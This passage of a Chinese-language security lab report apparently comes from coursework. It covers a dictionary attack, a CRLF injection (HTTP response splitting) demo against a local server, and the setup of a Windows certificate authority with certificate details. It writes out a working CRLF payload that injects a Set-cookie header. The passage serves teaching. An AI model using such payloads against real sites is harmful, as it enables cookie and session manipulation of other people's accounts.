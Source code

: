 加载字典
![lll](https://i.imgur.com/3LmzdwG.png)

进行攻击, 对结果长度排序即可:
![lensort](https://i.imgur.com/MFYSUhN.png)


## 9.6 HTTP 响应拆分(CRLF 注入)漏洞原理以及演示


当打开 https://127.0.0.1:801/ 会重定向到 http://127.0.0.1:801


构造数据包:
```
GET / HTTP/1.1
Host:127.0.0.1:801
Content-length: 0
Connection: close
```

构造 CSRF
```
/%0d%0aSet-cookie:name=shandongdaxue
```

成功设置 cookie
![cookie](https://i.imgur.com/GiWiz2t.png)

# lab10: 认证技术与认证协议

## 10.1 Windows 认证中心的构建实验
- 在 Windows 2008 Server 中启用并配置证书服务
- 向证书服务申请并安装数据证书
- 将相关配置和申请界面截图并写入实验报告中

添加证书服务
![ss](https://i.imgur.com/YTRZvPY.png)
![ss](https://i.imgur.com/oQ29t7A.png)
![ss](https://i.imgur.com/BEYrLJ8.png)
![ss](https://i.imgur.com/mqgzowR.png)
![ss](https://i.imgur.com/W2B7m9c.png)
![ss](https://i.imgur.com/ijC6Mwj.png)
![ss](https://i.imgur.com/OI6ZPm5.png)
![ss](https://i.imgur.com/FTuJ67S.png)


查看证书信息
![ll](https://i.imgur.com/j9pUTEv.png)
数字证书内容如下:
版本: v3
序列号: 5e d0 ee af 8d 9f 33 ba 46 f1 40 94 66 0b 36 2c
签名算法: sha1RSA
签名哈希算法: sha1
颁发者: WIN-A973229G3V6-CA
有效期从:   2023 年9 月9 日  5:19:31
到:   2028 年1 月7 日  5:29:31
使用者: WIN-A973229G3V6-CA
公钥: RSA(2048 bits)
